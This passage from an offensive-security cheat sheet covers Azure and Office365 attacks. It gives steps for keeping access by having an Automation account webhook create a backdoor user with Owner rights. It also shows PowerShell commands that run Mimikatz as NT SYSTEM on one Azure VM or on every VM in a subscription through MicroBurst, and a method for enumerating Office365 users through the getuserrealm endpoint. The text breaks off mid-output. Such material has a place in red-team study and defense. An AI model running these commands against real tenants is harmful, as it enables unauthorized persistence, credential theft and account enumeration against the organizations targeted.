 OWA Version Discovery : autodiscover.domain.com

## Azure AD - Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BlogDemoUser";Password="Password123"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```

## Azure VM - Execute command as NT SYSTEM with Contributor right

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name

ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

Against the whole subscription using MicroBurst.ps1

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

## Office365 - Enumerating Users

NOTE: By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Bruteforce user enum : https://bitbucket.org/grimhacker/office365userenum/src/master/ based on the endpoint https://login.microsoftonline.com/getuserrealm.srf?login=firstname.lastname@domain.com&xml=1
    ```powershell
    RealmInfo Success="true">
    <State>3</State>
    <UserState>2</UserState>
    <Login>firstname.lastname@domain.com</Login>
    <NameSpaceType>Federated</NameSpaceType>
    <DomainName>domain.com</DomainName>
    <FederationGlobalVersion>-1</FederationGlobalVersion>
    <AuthURL>
    https://fws.domain.com/o365/visfed/intrdomain/se/?username=firstname.lastname%40domain.com&wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline&wctx=
    </AuthURL>